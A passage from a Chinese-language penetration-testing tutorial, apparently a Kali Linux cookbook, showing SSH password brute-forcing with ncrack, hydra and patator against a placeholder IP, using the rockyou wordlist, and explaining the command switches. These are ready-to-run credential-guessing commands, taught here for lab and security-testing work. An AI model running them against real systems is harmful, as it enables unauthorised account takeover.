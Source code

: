 ```
ncrack -v --user sys -P /usr/share/wordlists/rockyou.txt       ssh://<IP address>

```

输出将如下截屏所示：

![如何操作...](img/image_04_020.jpg)

1.  如您所见，`sys`账户的密码已经被找到，登录成功：![如何操作...](img/image_04_021.jpg)

## 工作原理...

我们使用了以下命令：

```
hydra -e nsr -L username <IP address> ssh -t 4
patator ssh_login host=<IP address> user=SHayslett password-FILE0     0=username
hydra -l user -P /usr/share/wordlists/rockyou.txt -t 4 <IP     address> ssh

```

让我们了解这些开关实际上是做什么的。

如前所述，`-e`开关有三个选项，`n`、`s`和`r`：

+   `n`：此选项检查空密码

+   `s`：这使用登录名作为密码

+   `r`：这是将登录名作为密码的反向

`-L`检查允许我们指定包含用户名的文件。`-t`开关代表任务；它并行运行连接的数量。默认情况下，数量为 16。这类似于线程概念，通过并行化获得更好的性能。`-l`开关代表特定的用户名，`-P`开关代表要读取的攻击文件列表。
